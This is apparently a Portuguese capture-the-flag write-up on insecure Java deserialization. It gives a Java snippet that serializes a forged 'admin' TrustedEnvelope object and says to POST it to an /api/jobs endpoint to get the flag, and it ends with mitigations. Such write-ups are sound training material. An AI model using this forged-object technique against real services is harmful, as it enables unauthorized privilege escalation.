 # Write-up — M07 Desserialização Insegura em Java

## Visão Geral do Vetor
A classe `DeserializeHandler` cria um `ObjectInputStream` sobre qualquer payload enviado e chama `readObject()` sem `ObjectInputFilter`. Como a aplicação inclui a classe `TrustedEnvelope`, basta enviar um objeto legítimo serializado com `action=admin` para obter a flag, mas o cenário também permite explorar cadeias de gadgets caso existam no classpath.

## Passo a Passo
1. Escreva um pequeno programa Java:
   ```java
   TrustedEnvelope env = new TrustedEnvelope("admin", "audit");
   ByteArrayOutputStream baos = new ByteArrayOutputStream();
   ObjectOutputStream oos = new ObjectOutputStream(baos);
   oos.writeObject(env);
   String base64 = Base64.getEncoder().encodeToString(baos.toByteArray());
   ```
2. Envie o valor Base64 para `/api/jobs` no campo `payload`.
3. A resposta virá com o corpo contendo a flag.

## Evidências
- Resposta HTTP 200 retornando `VIVO2025{...}` imediatamente após o POST.
- Logs da aplicação indicando desserialização da classe `com.itau.ctf.TrustedEnvelope`.

## Mitigações Recomendadas
- Aplicar `ObjectInputFilter` restritivo ou migrar para formatos seguros (JSON, protobuf).
- Verificar assinaturas ou mac dos objetos antes de desserializar.
- Manter lista de classes permitidas explicitamente.
